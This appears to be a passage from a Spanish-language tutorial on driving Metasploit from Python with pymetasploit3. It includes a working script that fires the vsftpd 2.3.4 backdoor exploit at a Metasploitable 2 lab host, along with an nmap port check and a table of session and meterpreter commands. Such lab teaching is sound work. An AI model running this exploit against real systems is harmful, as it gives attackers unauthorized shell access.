 ```python
from pymetasploit3.msfrpc import MsfRpcClient

# Conectarse al servicio RPC
client = MsfRpcClient('123')  # La misma contraseña usada en 'load msgrpc'

# Ver módulos disponibles
exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
payload = client.modules.use('payload', 'cmd/unix/interact')

# Configurar opciones del exploit
exploit['RHOSTS'] = '192.168.56.102'
exploit['RPORT'] = 21

# Lanza el ataque
print("[*] Ejecutando exploit...")
exploit.execute(payload=payload)
```

✅ Esto lanza el exploit vsftpd contra una máquina víctima vulnerable.

---

### 🧪 Prueba con Metasploitable 2

1. Asegúrate de que Metasploitable tenga el puerto 21 abierto:

```bash
nmap -p 21 192.168.56.102
```

2. Corre tu script Python desde Kali.

3. Mira si Metasploit recibe la sesión.

---

### 🧠 ¿Qué puedes hacer con PyMetasploit?

| Tarea                            | ¿Cómo lo haces?                           |
| -------------------------------- | ----------------------------------------- |
| Lanzar un exploit                | `exploit.execute()`                       |
| Ver sesiones activas             | `client.sessions.list`                    |
| Ejecutar comandos en meterpreter | `session.run_with_output("whoami")`       |
| Listar módulos                   | `client.modules.exploits`                 |
| Automatizar escaneos             | Usar `auxiliary` modules                  |
| Escribir tu propio framework     | Crear una clase que use exploits + lógica |

---

### 📦 Ejemplo más avanzado: obtener sesión y ejecutar comandos
